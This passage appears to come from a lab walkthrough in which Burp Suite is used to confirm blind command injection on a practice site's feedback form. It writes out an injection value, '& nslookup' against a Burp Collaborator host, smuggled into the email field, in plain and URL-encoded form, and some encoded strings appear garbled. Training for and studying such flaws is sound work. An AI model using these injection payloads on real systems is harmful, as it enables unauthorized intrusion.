 - Click on "Send" to see if it's working.

<p align="center">
<br/>
<img src="https://i.imgur.com/H2HQcCb.png" height="90%" width="90%" alt=""/>
<br />

- Click on "Burp" on the upper left corner. Then, "Burp Collaborator Client".

<p align="center">
<br/>
<img src="https://i.imgur.com/VZcuh0b.png" height="90%" width="90%" alt=""/>
<br />

- Click on "Copy to clipboard" on the pop up window.

<p align="center">
<br/>
<img src="https://i.imgur.com/7Sw5at3.png" height="90%" width="90%" alt=""/>
<br />

- "zorh37nyfzjbsg1nog7j9ml6zx5ntc.burpcollaborator.net" is going to be the external server that we control.
  - Going to try to perform DNS lookup on the server to confirm that this is vulnerable to blind command injection.
  - Add in: "&" to do a chaining command. Then use the "nslookup" command on the collaborator client. At the end, put a "#" to make the rest of the command a comment.
  - Command will be: "``` & nslookup zorh37nyfzjbsg1nog7j9ml6zx5ntc.burpcollaborator.net #```".

- Put the command into the email section that is vulnerable to blind command injection.
  - Command turn into: "csrf-FhT12DC0irG0s0G4Pz4NVd11S3fPmOaQ&name=test&email-test%40test.ca``` & nslookup zorh37nyfzjbsg1nog7j9ml6zx5ntc.burpcollaborator.net #```&subject= test&message=test".
  - Highlight ``` & nslookup zorh37nyfzjbsg1nog7j9ml6zx5ntc.burpcollaborator.net #``` and press "Ctrl + U" to encode it.
    - Command turn into: "```csrf-FhT1ZDC0irG0s0G4Pz4NVd11S3fPmOaQ&name=test&email=test%40test.ca+%26+nslookup+zorh37nyfzjbsglnog7j9m16zx5ntc.burpcollaborator.net+823&subject=test&message-test```".
- Click on "Send".

<p align="center">
<br/>
<img src="https://i.imgur.com/oDRlnYS.png" height="90%" width="90%" alt=""/>
<br />

- Navigate to the "Burp Collaborator Client".
  - Click on "Poll Now".
  - Two ping back for the DNS request to our domain. This means it is vulnerable to blind command injection.
 
<p align="center">
<br/>
<img src="https://i.imgur.com/3dz7WqH.png" height="90%" width="90%" alt=""/>
<br />

